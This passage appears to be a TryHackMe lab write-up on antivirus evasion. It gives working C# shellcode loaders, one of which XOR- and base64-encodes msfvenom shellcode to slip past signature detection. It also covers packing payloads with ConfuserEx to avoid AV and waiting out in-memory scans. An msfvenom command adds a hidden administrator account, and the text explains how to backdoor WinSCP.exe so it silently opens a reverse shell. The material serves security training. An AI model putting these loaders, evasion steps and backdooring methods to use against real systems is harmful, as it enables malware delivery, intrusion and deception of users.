        private static byte[] xor(byte[] shell, byte[] KeyBytes)
        {
            for (int i = 0; i < shell.Length; i++)
            {
                shell[i] ^= KeyBytes[i % KeyBytes.Length];
            }
            return shell;
        }
        static void Main(string[] args)
        {
            //XOR Key - It has to be the same in the Droppr for Decrypting
            string key = "THMK3y123!";

            //Convert Key into bytes
            byte[] keyBytes = Encoding.ASCII.GetBytes(key);

            //Original Shellcode here (csharp format)
            byte[] buf = new byte[460] { 0xfc,0x48,0x83,..,0xda,0xff,0xd5 };

            //XORing byte by byte and saving into a new array of bytes
            byte[] encoded = xor(buf, keyBytes);
            Console.WriteLine(Convert.ToBase64String(encoded));        
        }
    }
}
```

The code is pretty straightforward and will generate an encoded payload that we will embed on the final payload. Remember to replace the `buf` variable with the shellcode you generated with msfvenom.

To compile and execute the encoder, we can use the following commands on the Windows machine:


### Self-decoding Payload

Since we have an encoded payload, we need to adjust our code so that it decodes the shellcode before executing it. To match the encoder, we will decode everything in the reverse order we encoded it, so we start by decoding the base64 content and then continue by XORing the result with the same key we used in the encoder. Here's the full payload code (you can also get it in your Windows machine at `C:\Tools\CS Files\EncStageless.cs)`:

```
using System;
using System.Net;
using System.Text;
using System.Runtime.InteropServices;

public class Program {
  [DllImport("kernel32")]
  private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

  [DllImport("kernel32")]
  private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

  [DllImport("kernel32")]
  private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

  private static UInt32 MEM_COMMIT = 0x1000;
  private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;
  
  private static byte[] xor(byte[] shell, byte[] KeyBytes)
        {
            for (int i = 0; i < shell.Length; i++)
            {
                shell[i] ^= KeyBytes[i % KeyBytes.Length];
            }
            return shell;
        }
  public static void Main()
  {

    string dataBS64 = "qKDPSzN5UbvWEJQsxhsD8mM+uHNAwz9jPM57FAL....pEvWzJg3oE=";
    byte[] data = Convert.FromBase64String(dataBS64);

    string key = "THMK3y123!";
    //Convert Key into bytes
    byte[] keyBytes = Encoding.ASCII.GetBytes(key);

    byte[] encoded = xor(data, keyBytes);

    UInt32 codeAddr = VirtualAlloc(0, (UInt32)encoded.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    Marshal.Copy(encoded, 0, (IntPtr)(codeAddr), encoded.Length);

    IntPtr threadHandle = IntPtr.Zero;
    UInt32 threadId = 0;
    IntPtr parameter = IntPtr.Zero;
    threadHandle = CreateThread(0, 0, codeAddr, parameter, 0, ref threadId);

    WaitForSingleObject(threadHandle, 0xFFFFFFFF);

  }
}
```

Note that we have merely combined a couple of really simple techniques that were detected when used separately. Still, the AV won't complain about the payload this time, as the combination of both methods is not something it can analyze directly.

Let's compile our payload with the following command on the Windows machine:


Before running our payload, let's set up an `nc` listener. After copying and executing our payload into the victim machine, we should get a connection back as expected:


As you can see, simple adjustments are enough sometimes. Most of the time, any specific methods you find online won't probably work out of the box as detection signatures may already exist for them. However, using a bit of imagination to customize any method could prove enough for a successful bypass.

### Answer the questions below

* Try to use this technique (combining encoding and encryption) on the THM Antivirus Check at `http://MACHINE_IP/`. Does it bypass the installed AV software?

## Task 9 - Packers

Another method to defeat disk-based AV detection is to use a packer. **Packers** are pieces of software that take a program as input and transform it so that its structure looks different, but their functionality remains exactly the same. Packers do this with two main goals in mind:

* Compress the program so that it takes up less space.
* Protect the program from reverse engineering in general.

Packers are commonly used by software developers who would like to protect their software from being reverse engineered or cracked. They achieve some level of protection by implementing a mixture of transforms that include compressing, encrypting, adding debugging protections and many others. As you may have already guessed, packers are also commonly used to obfuscate malware without much effort.

There's quite a large number of packers out there, including UPX, MPRESS, Themida, and many others.

### Packing an application

While every packer operates differently, let's look at a basic example of what a simple packer would do.

When an application is packed, it will be transformed in some way using a **packing** function. The packing function needs to be able to obfuscate and transform the original code of the application in a way that can be reasonably reversed by an **unpacking** function so that the original functionality of the application is preserved. While sometimes the packer may add some code (to make debugging the application harder, for example), it will generally want to be able to get back the original code you wrote when executing it.


The packed version of the application will contain your packed application code. Since this new packed code is obfuscated, the application needs to be able to unpack the original code from it. To this end, the packer will embed a code stub that contains an unpacker and redirect the main entry point of the executable to it.

When your packed application gets executed, the following will happen:


1. The unpacker gets executed first, as it is the executable's entry point.
2. The unpacker reads the packed application's code.
3. The unpacker will write the original unpacked code somewhere in memory and direct the execution flow of the application to it.

### Packers and AVs

By now, we can see how packers help bypass AV solutions. Let's say you built a reverse shell executable, but the AV is catching it as malicious because it matches a known signature. In this case, using a packer will transform the reverse shell executable so that it doesn't match any known signatures while on disk. As a result, you should be able to distribute your payload to any machine's disk without much problem.

AV solutions, however, could still catch your packed application for a couple of reasons:

* While your original code might be transformed into something unrecognizable, remember that the packed executable contains a stub with the unpacker's code. If the unpacker has a known signature, AV solutions might still flag any packed executable based on the unpacker stub alone.
* At some point, your application will unpack the original code into memory so that it can be executed. If the AV solution you are trying to bypass can do in-memory scans, you might still be detected after your code is unpacked.

### Packing our shellcode

Let's start from a basic C# shellcode. You can also find this code in your Windows machine at `C:\Tools\CS Files\UnEncStagelessPayload.cs`:

```
using System;
using System.Net;
using System.Text;
using System.Configuration.Install;
using System.Runtime.InteropServices;
using System.Security.Cryptography.X509Certificates;

public class Program {
  [DllImport("kernel32")]
  private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

  [DllImport("kernel32")]
  private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

  [DllImport("kernel32")]
  private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

  private static UInt32 MEM_COMMIT = 0x1000;
  private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;

  public static void Main()
  {
    byte[] shellcode = new byte[] {0xfc,0x48,0x83,...,0xda,0xff,0xd5 };


    UInt32 codeAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    Marshal.Copy(shellcode, 0, (IntPtr)(codeAddr), shellcode.Length);

    IntPtr threadHandle = IntPtr.Zero;
    UInt32 threadId = 0;
    IntPtr parameter = IntPtr.Zero;
    threadHandle = CreateThread(0, 0, codeAddr, parameter, 0, ref threadId);

    WaitForSingleObject(threadHandle, 0xFFFFFFFF);

  }
}
```

This payload takes a shellcode generated by msfvenom and runs it into a separate thread. For this to work, you'll need to generate a new shellcode and put it into the `shellcode` variable of the code:


You can then compile your payload in the Windows machine using the following command:


Once you have a working executable, you can try uploading it to the THM Antivirus Check! page (link on the desktop). It should be flagged by the AV immediately. Let's use a packer on the same payload and see what happens.

We will use the [ConfuserEx](https://github.com/mkaring/ConfuserEx/releases/tag/v1.6.0) packer for this task, as our payloads are programmed on `.NET`. For your convenience, you can find a shortcut on your desktop to it.

ConfuserEx will require you to indicate the folders in which it will work. Be sure to select your desktop as the base directory, as shown in the image below. Once the base directory is set up, drag and drop the executable you want to pack on the interface, and you should end up with the following:


Let's go to the settings tab and select our payload. Once selected, hit the "+" button to add settings to your payload. This should create a rule named "true". Make sure to enable compression as well:


We will now edit the "true" rule and set it to the Maximum preset:


Finally, we will go to the "Protect!" tab and hit "Protect":


The new payload should be ready and hopefully won't trigger any alarms when uploaded to the THM Antivirus Checker! (shortcut available on your desktop). In fact, if you execute your payload and set up an `nc` listener, you should be able to get a shell back:


So far, so good, but remember we talked about AVs doing in-memory scanning? If you try running a command on your reverse shell, the AV will notice your shell and kill it. This is because Windows Defender will hook certain Windows API calls and do in-memory scanning whenever such API calls are used. In the case of any shell generated with msfvenom, CreateProcess() will be invoked and detected.

### So what do we do now?

While defeating in-memory scanning is out of the scope of this room, there are a couple of simple things you can do to avoid detection:

* **Just wait a bit**. Try spawning the reverse shell again and wait for around 5 minutes before sending any command. You'll see the AV won't complain anymore. The reason for this is that scanning memory is an expensive operation. Therefore, the AV will do it for a while after your process starts but will eventually stop.
* **Use smaller payloads**. The smaller the payload, the less likely it is to be detected. If you use msfvenom to get a single command executed instead of a reverse shell, the AV will have a harder time detecting it. You can try with `msfvenom -a x64 -p windows/x64/exec CMD='net user pwnd Password321 /add;net localgroup administrators pwnd /add' -f csharp` and see what happens.

If detection isn't an issue, you can even use a simple trick. From your reverse shell, run `cmd.exe` again. The AV will detect your payload and kill the associated process, but not the new cmd.exe you just spawned.

While every single AV will behave differently, most of the time, there will be a similar way around them, so it's worth exploring any weird behaviors you notice while testing.

### Answer the questions below

* Will packers help you obfuscate your malicious code to bypass AV solutions? (yea/nay)

    **Answer : Yea**

* Will packers often unpack the original code in-memory before running it? (yea/nay)

    **Answer : Yea**

* Are some packers detected as malicious by some AV solutions? (yea/nay)

    **Answer : Yea**

* Follow the instructions to create a packed payload and upload it into the THM Antivirus Check at `http://MACHINE_IP/`

## Task 10 - Binders

While not an AV bypass method, binders are also important when designing a malicious payload to be distributed to end users. A binder is a program that merges two (or more) executables into a single one. It is often used when you want to distribute your payload hidden inside another known program to fool users into believing they are executing a different program.


While every single binder might work slightly differently, they will basically add the code of your shellcode inside the legitimate program and have it executed somehow.

You could, for example, change the entry point in the PE header so that your shellcode executes right before the program and then redirect the execution back to the legitimate program once it is finished. This way, when the user clicks the resulting executable, your shellcode will get silently executed first and continue running the program normally without the user noticing it.

### Binding with msfvenom

You can easily plant a payload of your preference in any .exe file with `msfvenom`. The binary will still work as usual but execute an additional payload silently. The method used by msfvenom injects your malicious program by creating an extra thread for it, so it is slightly different from what was mentioned before but achieves the same result. Having a separate thread is even better since your program won't get blocked in case your shellcode fails for some reason.

For this task, we will be backdooring the WinSCP executable available at `C:\Tools\WinSCP`.

To create a backdoored WinSCP.exe we can use the following command on our Windows machine:

**Note**: Metasploit is installed in the Windows machine for your convenience, but it might take up to three minutes to generate the payload (the produced warnings can be safely ignored).


The resulting WinSCP-evil.exe will execute a reverse_tcp meterpreter payload without the user noticing it. Before anything else, remember to set up an nc listener to receive the reverse shell. When you execute your backdoored executable, it should launch a reverse shell back at you while continuing to execute WinSCP.exe for the user:


### Binders and AV

Binders won't do much to hide your payload from an AV solution. The simple fact of joining two executables without any changes means that the resulting executable will still trigger any signature that the original payload did.

The main use of binders is to fool users into believing they are executing a legitimate executable rather than a malicious payload.

When creating a real payload, you may want to use encoders, crypters, or packers to hide your shellcode from signature-based AVs and then bind it into a known executable so that the user doesn't know what is being executed.

Feel free to try and upload your bound executable to the THM Antivirus Check website (link available on your desktop) without any packing, and you should get a detection back from the server, so this method won't be of much help when trying to get the flag from the server by itself.

### Answer the questions below

* Will a binder help with bypassing AV solutions? (yea/nay)

    **Answer : Nay**

* Can a binder be used to make a payload appear as a legitimate executable? (yea/nay)

    **Answer : Yea**

## Task 11 - Conclusion

In this room, we have explored some strategies available to an attacker to circumvent AV engines that rely on disk-based detection only. While this is just one of the mechanisms available to any modern AV engine, we should be able to at least deliver our payloads to our victim's disk as a first step. Bypassing in-memory detection and other advanced detection mechanisms are left for a future room. You may want to check the [Runtime Detection Evasion](https://tryhackme.com/room/runtimedetectionevasion) for more information on bypassing further Windows security mechanisms that may prevent your payloads from triggering.

Remember that the success of any encrypter, encoder or packer, will largely depend on AV engines not knowing any signatures for them. Therefore, being able to customize your own payloads is critical when trying to bypass any real-world solution.

### Answer the questions below

* Click and continue learning!